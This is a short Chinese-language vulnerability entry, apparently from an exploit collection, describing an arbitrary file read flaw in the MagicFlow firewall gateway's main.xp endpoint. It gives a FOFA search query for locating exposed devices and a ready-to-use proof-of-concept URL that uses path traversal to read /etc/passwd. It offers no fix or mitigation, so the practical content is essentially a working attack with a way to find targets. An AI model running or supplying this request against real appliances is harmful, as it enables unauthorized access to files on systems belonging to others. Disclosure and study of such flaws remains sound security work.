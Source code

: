 ```yaml
---
title: MagicFlow 防火墙网关 main.xp 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - MagicFlow
---
```


# MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

> [!NOTE]
>
> MagicFlow 防火墙网关

## FOFA

> [!NOTE]
>
> app="MSA/1.0"

## 漏洞复现

登录页面如下

![image-20210609181301702](/img/20210924020228977583.png)

构造POC

```
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![image-20210609182245927](/img/20210924020229441755.png)